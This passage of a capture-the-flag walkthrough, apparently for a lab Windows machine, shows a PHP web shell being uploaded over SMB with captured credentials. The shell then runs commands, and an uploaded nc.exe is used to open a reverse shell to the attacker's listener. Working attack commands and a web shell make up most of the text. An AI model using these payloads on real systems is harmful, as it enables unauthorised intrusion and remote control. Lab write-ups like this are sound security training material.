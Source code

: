 

    root@kali# cat /opt/shells/php/cmd.php 
    <?php system($_REQUEST['cmd']); ?>

    root@kali# smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site -c 'put /opt/shells/php/cmd.php 0xdf.php'
    putting file /opt/shells/php/cmd.php as \0xdf.php (0.5 kb/s) (average 0.5 kb/s)

    root@kali# curl http://10.10.10.97:8808/0xdf.php?cmd=whoami
    secnotes\tyler



Success. I now have code execution.

### Interactive Shell

There's multiple ways to go from Webshell to interactive shell on a
windows host. Typically, on Windows my favorite is to use
`powershell iex()` on a `webclient.downloadstring` object to load
something like Nishang's Invoke-PowerShellTcp.ps1. But since I already
have unfettered write access to the host, this seems like as good a case
as any to try something different and upload `nc.exe`.

First find a copy of `nc` and put it to disk:



    root@kali# locate nc.exe
    /opt/SecLists/Web-Shells/FuzzDB/nc.exe
    /opt/shells/netcat/nc.exe
    /usr/lib/mono/4.5/cert-sync.exe
    /usr/share/seclists/Web-Shells/FuzzDB/nc.exe
    /usr/share/sqlninja/apps/nc.exe
    /usr/share/windows-binaries/nc.exe

    root@kali# smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site -c 'put /opt/shells/netcat/nc.exe nc.exe'
    putting file /opt/shells/netcat/nc.exe as \nc.exe (359.2 kb/s) (average 359.2 kb/s)



Next, invoke it to get a shell back:



    root@kali# curl "http://10.10.10.97:8808/0xdf.php?cmd=nc.exe+-e+cmd.exe+10.10.14.15+443"





    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.97.
    Ncat: Connection from 10.10.10.97:49738.
    Microsoft Windows [Version 10.0.17134.228]
    (c) 2018 Microsoft Corporation. All rights reserved.
